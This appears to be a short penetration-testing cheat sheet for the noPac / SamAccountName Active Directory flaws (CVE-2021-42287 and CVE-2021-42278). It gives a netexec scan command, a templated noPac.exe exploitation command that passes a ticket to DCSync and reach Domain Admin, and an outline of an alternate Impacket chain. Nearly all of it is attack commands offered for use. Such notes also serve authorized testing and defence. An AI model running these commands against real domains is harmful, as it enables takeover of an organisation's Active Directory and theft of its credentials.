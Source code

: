 # SamAccountName / NoPac CVE-2021-42287 / CVE-2021-42278

## Scan:

 - netexec smb IP -u USER -p PASSWORD -M nopac

## Exploitation

 - .\noPac.exe -domain DOMAIN -user USER -pass PASSWORD /dc DC_FQDN /mAccount MACHINE_ACCOUNT /mPassword MACHINE_PASSWORD /service cifs /ptt (Pass the Ticket to DCSync to Domain Admin)

## Alternate method: Impacket

 - addcomputer / addspn / renameMachine / getTGT / renameMachine / getST
